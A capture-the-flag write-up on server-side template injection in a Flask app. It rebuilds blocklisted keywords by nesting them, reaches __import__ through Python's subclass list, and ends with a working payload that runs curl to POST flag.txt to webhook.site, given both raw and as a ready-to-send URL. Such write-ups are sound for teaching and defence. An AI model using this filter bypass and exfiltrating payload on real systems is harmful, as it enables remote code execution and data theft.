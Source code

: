```yaml
---
ai_date: 2025-04-27 05:10:37
ai_summary: Bypassed server-side filtering using template string manipulation and __import__ to execute system command
ai_tags:
  - xss
  - template-string
  - exploitation
created: 2021-12-21T23:50
updated: 2025-07-14T09:46
---
```


## Super Secure Trustable Implementation

> I've added a bunch of filters, so my app must be really secure now.
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4209/

The source, `main.py` is included hence we should take a look.

```python
import secrets
from flask import Flask, render_template_string, request

app = Flask(__name__)


@app.route("/")
def index():
    name = request.args.get("name", default="World")
    # Evil hacker cannot get past now!
    blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
    for bad in blocklist:
        name = name.replace(bad, "")
    return render_template_string(f"<h1> Hello, {name}")
```

Since the server uses `render_template_string` its vulunerable to `{{}}` template string attacks.

If we use `{{ 'Hello'+' '+'World' }}` for name, it would give us `Hello World` as the string inside is ran as code.

### Blocklist Bypass

However as we can see, there is an blocklist, and it includes `{{` and `}}`.

To bypass this filter we can simply insert blocklisted words inside of blocklisted words. For example

`{flag{}flag}` will not trigger when checking for `{{` and `}}`, but will have `flag` removed when checking for flag, and would result in `{{}}` as the end output.

Making use of this, we can construct our payloads with the help of a little script.

> I had troubles with reading the file so I decidede to just send the file content via curl
>
> webhook.site is a easy to use site for sending data back

```python
bypass = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read"]
bypass.reverse()
payload = ''
for toby in bypass:
    payload = payload.replace(toby, toby[0] + "read" + toby[1:])
print(payload)
name = payload
blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
for bad in blocklist:
    name = name.replace(bad, "")
print(f"<h1> Hello, {name}")
```

### Bypassing certain unknown filters

If one simply use `__import__`, one will soon realise that it does not exist, this could have been done by deleting built-ins from the python run time.

We can restore the built-ins via `reload(__builtins__)`, however it is obviously, also deleted.

We need to find `__import__` somehow.

With some experimenting, we can find that

```python
>>> ().__class__.__bases__
(<type 'object'>,)
```

The tuple inherits directly from `object`, hence we can find the list of types (extends object) by sending the payload

##### `{{().__class__.__bases__[0].__subclasses__()}}`

```
Hello, [<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>... <class 'flask.blueprints.BlueprintSetupState'>]
```

Much of the output is useless, `_frozen_importlib_external.FileLoader` looks a bit suspicious though. (it is at position 118)

##### `{{().__class__.__bases__[0].__subclasses__()[118]}}`

```
Hello, <class '_frozen_importlib_external.FileLoader'>
```

Just verifying that the class is the `FileLoader`, now lets see what builtins this FileLoader has

##### `{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"]}}`

```
Hello, {'__name__': 'builtins' ... '__import__': <built-in function __import__>,  ...help, or help(object) for help about object.}
```

**Hooray!** We found `__import__`, now we just have to combine the payload into

```python
{{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flflag.txtag.txt https://webhook.site")}}
```

`flag.txt` is manually bypassed since it contains `flag`

### Transforming the payload

```
{read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site")}read}

<h1> Hello, {{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flag.txt https://webhook.site")}}
```

The first line is our payload, and after running the same blocklist operations as the server, the resulting string looks ok.

### Sending the payload

`http://35.240.143.82:4209/?name={read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site")}read}`

And after checking webhook.site

```flag
flag{server_side_rendering_is_fun_but_dangerous_sometimes}
```

Flag obtained